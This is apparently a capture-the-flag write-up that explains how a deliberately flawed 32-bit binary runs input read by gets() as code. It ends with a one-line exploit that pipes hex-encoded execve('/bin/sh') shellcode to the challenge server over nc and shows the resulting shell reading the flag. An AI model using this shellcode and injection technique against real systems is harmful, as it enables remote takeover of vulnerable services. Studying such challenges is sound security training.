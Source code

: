 # The Sleepy Coder
**Points**: 150
**Category**: Exploit 
**Author**: [Ajith Pandel](https://github.com/ajithps), [Mithesh Mutha](https://github.com/mitesh-mutha)
> The guy who was coding this was very sleepy. He has made some mistakes in the program.<br/>
Can you exploit it?

> [sleepy_coder.tar.gz](./sleepy_coder.tar.gz)

> nc 212.71.235.214 4000 

## Write-up
We are given sleepy\_coder.tar.gz which contains a single file. It is a ELF 32-bit LSB executable. We get this information through `file` command:<br/>
<code>
> $ file sleepy\_coder<br/>
> sleepy\_coder: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xafac700b0de7b1c7099e8473a8ff3a1422c945f6, not stripped<br/>
</code>

We disassemble it using `objdump -d sleepy_coder` command. If we see the _main_ function, the instruction `call *%eax` tells us that the program calls the function which is located in the address saved in EAX register.

Looking back we see that the 0x7c(%esp) saves the address of the function. i.e. The function pointer is saved in (ESP + 0x7c) address. 

It has been initialised with the instructions `lea    0x18(%esp),%eax` and `mov    %eax,0x7c(%esp)`. This means that the address of (ESP + 0x18) is saved in the function pointer.

Notice that the _gets_ function writes to this address directly.( `lea    0x18(%esp),%eax` , `mov    %eax,(%esp)` and `call   80482f0 <gets@plt>`)

So effectively the program will execute whatever instruction we tell it to execute, through _gets_ function. So we just have to inject a code which would make the program drop into a shell.

[This](http://www.tenouk.com/Bufferoverflowc/Bufferoverflow5.html) link will give a good tutorial on shell codes and how to create them.

The final exploit:<br/>
<code>
> $ cat <(python -c "print '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4e\x41\x41\x41\x41\x42\x42\x42\x42'") - | nc 212.71.235.214 4000<br/>
> ls<br/>
> flag.txt<br/>
> sleepy_coder<br/>
> cat flag.txt<br/>
> flag{thank\_you\_bfox}<br/>
</code>

> Flag: flag{thank\_you\_bfox}

## External Write ups

